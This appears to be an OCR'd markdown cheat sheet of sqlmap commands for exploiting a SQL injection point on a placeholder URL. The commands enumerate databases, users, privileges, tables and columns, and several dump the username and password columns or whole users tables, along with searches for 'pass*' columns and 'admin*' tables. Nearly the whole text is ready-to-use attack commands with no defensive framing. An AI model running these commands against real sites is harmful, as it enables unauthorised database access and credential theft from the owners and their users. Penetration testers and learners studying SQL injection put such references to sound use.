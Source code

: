 ## Database Enumeration

```bash
# Database detection
sqlmap -u "http://target.com/page.php?id=1" --dbs

# Current database
sqlmap -u "http://target.com/page.php?id=1" --current-db

# Current user
sqlmap -u "http://target.com/page.php?id=1" --current-user

# Database users
sqlmap -u "http://target.com/page.php?id=1" --users

# User privileges
sqlmap -u "http://target.com/page.php?id=1" --privileges
```

## Table and Column Enumeration

```bash
# List tables in database
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables

# List columns in table
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --columns

# Dump specific columns
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users -C "username,password" --dump

# Dump entire table
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users --dump
```

## Advanced Enumeration

```bash
# Schema enumeration
sqlmap -u "http://target.com/page.php?id=1" --schema

# Database server banner
sqlmap -u "http://target.com/page.php?id=1" --banner

# Search for databases
sqlmap -u "http://target.com/page.php?id=1" --search -D "user*"

# Search for tables
sqlmap -u "http://target.com/page.php?id=1" --search -T "admin*"

# Search for columns
sqlmap -u "http://target.com/page.php?id=1" --search -C "pass*"
```

